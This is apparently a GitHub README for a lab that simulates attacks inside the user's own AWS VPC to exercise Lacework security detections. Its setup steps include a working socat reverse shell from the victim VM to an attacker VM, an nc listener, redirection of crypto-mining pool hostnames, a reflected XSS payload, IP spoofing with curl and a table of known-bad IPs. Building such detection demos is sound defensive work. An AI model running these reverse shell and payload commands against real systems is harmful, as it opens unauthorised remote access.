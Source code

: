 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/10402fa0-0c8f-4911-a89b-4795f1ff6b81)


> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo
git clone https://github.com/svuillaume/demo_simulator

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```bash
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```bash
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```bash
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# ▶️ Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```bash
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**
```bash
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

# 🚀 HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```bash
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)

**Example:**
```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**
```bash
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```bash
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***
```bash
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
```
